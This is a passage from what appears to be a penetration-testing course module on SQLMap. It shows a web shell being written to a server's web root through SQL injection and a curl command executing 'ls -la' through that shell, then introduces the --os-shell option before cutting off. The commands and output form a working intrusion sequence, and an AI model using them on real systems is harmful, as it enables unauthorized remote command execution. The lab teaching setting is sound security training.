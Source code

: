 
```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.11#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 17:54:18 /2020-11-19/

[17:54:19] [INFO] resuming back-end DBMS 'mysql'
[17:54:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
do you want confirmation that the local file 'shell.php' has been successfully written on the back-end DBMS file system ('/var/www/html/shell.php')? [Y/n] y

[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)

[*] ending @ 17:54:28 /2020-11-19/
```

We see that SQLMap confirmed that the file was indeed written:

```shell-session
[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)
```

Now, we can attempt to access the remote PHP shell, and execute a sample command:

```shell-session
smoothment@htb[/htb]$ curl http://www.example.com/shell.php?cmd=ls+-la

total 148
drwxrwxrwt 1 www-data www-data   4096 Nov 19 17:54 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...
```

We see that our PHP shell was indeed written on the remote server, and that we do have command execution over the host server.

---

## OS Command Execution

Now that we confirmed that we could write a PHP shell to get command execution, we can test SQLMap's ability to give us an easy OS shell without manually writing a remote shell. SQLMap utilizes various techniques to get a remote shell through SQL injection vulnerabilities, like writing a remote shell, as we just did, writing SQL functions that execute commands and retrieve output or even using some SQL queries that directly execute OS command, like `xp_cmdshell` in Microsoft SQL Server. To get an OS shell with SQLMap, we can use the `--os-shell` option, as follows:

